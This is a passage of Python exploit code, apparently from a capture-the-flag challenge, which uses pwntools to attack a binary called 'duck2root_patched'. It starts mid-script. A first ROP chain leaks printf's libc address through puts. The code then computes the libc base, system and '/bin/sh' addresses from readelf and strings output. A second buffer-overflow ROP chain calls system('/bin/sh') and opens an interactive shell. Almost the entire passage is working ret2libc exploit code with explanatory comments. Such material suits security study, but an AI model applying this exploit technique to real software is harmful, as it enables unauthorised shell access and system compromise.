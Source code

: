 ```python
payload += p64(pop_rdi) # supply an argument to a function that we end up calling, system
payload += p64(printf_at_got) # address we want to leak
payload += p64(puts_at_plt) # callpoint
payload += p64(back_to_vuln) # jump back to vuln

p.sendlineafter(f"Patonymous?>\n",payload) # send payload

leak = u64(p.recvline().strip().ljust(8, b"\x00")) # get leaked address

log.info(f"Leaked printf libc address: {hex(leak)}") # print leaked address

"""
Plan to calculate the offset (getting the difference between the leaked address and the system address)
between printf (function we leaked) and system (function we want to call )

`readelf -s ./libc.so.6 | grep printf` (print the address of printf)
2922: 00000000000606f0   204 FUNC    GLOBAL DEFAULT   15 printf@@GLIBC_2.2.5
"""
printf_offset = 0x606f0

# Now we take our leaked address and subtract 0x606f0, and then we find the actual loaded address of libc
base_address = leak - printf_offset
log.info(f"Leaked libc base address: {hex(base_address)}") # print our leaked libc base address

"""
calcule the address of function system

`readelf -s ./libc.so.6 | grep system`
1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5
"""
libc_system = 0x50d70
log.info(f"Leaked system address: {hex(base_address + libc_system)}") # get the actual physical in memory address of system

"""
check if /bin/sh is in libc.so.6
strings libc.so.6 | grep /bin/sh
"""

"""
strings -a -t x ./libc.so.6 | grep "/bin/sh"
1d8678 /bin/sh
"""
libc_binsh = 0x1d8678

# second ROPchain (payload)

ret = 0x40101a # `ROPgadget --bin duck2root_patched | grep ret`

payload2 = b"A"*72 # creating our payload that will overflow
payload2 += p64(pop_rdi) # # supply an argument to a function that we end up calling, system
payload2 += p64(base_address + libc_binsh) # get /bin/sh addres in libc
payload2 += p64(ret) # so that whenever we call a sytem function, the last digit is a 0, basically for stack allignment
payload2 += p64(base_address + libc_system) # get system address in lib

p.sendlineafter(f"Patonymous?>\n",payload2) # send our second payload

p.interactive()
```

